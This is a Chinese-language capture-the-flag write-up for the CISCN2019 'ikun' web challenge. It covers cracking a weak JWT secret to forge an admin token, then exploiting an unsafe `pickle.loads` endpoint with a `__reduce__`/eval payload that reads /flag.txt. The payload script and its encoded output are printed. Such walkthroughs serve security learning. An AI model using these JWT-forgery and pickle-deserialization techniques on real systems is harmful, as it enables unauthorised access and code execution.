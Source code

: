 # 题目

## [CISCN2019 华北赛区 Day1 Web2]ikun1

提示 python pickle



1.查看页面源码，发现提示

![image-hint](../images/ikun-hint.png)

浏览页面，找到level 6的页面 181，

下单，修改优惠比例，提示admin才行，查看页面请求，得到jwt token

2.解密jwt token

JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluMSJ9.kFKLac89rUM6C1Rk2FHRmwWFsd0DFfwxuqM1rdaeRNU;

得到密码是1kun

![ikun-jwtcrack](../images/ikun-jwtcrack.png)

重新构建jwt 填回页面，找到

```javascript
<div class="ui text container login-wrap-inf">
<!-- 潜伏敌后已久,只能帮到这了 -->
<a href="/static/asd1f654e683wq/www.zip" ><span style="visibility:hidden">删库跑路前我留了好东西在这里</span></a>
<div class="ui segments center padddd">
<!-- 对抗*站黑科技，目前为测试阶段，只对管理员开放 -->
<div class="ui segment">
<img src="/static/img/b.png" alt=""/>
```

3.下载源码

发现有pickle，怀疑有pickle反序列化漏洞(admin.py)

```python
import tornado.web
from sshop.base import BaseHandler
import pickle
import urllib


class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')

    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)
```

构建运行脚本（需用python2）

```python
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print(a)
```



```shell
 ✘ 🐸   ~/Alven/CTF/BugKu/web-ikun1  /Users/alven/.pyenv/versions/2.7.18/bin/python /Users/alven/Alven/CTF/BugKu/web-ikun1/www/exp.py
c__builtin__%0Aeval%0Ap0%0A%28S%22open%28%27/flag.txt%27%2C%27r%27%29.read%28%29%22%0Ap1%0Atp2%0ARp3%0A.
```



替换become参数为上payload，得出

![ikun-decome-bp](../images/ikun-decome-bp.png)



flag{69f0688e-9ae0-4f82-a181-ad455a7a8fd1}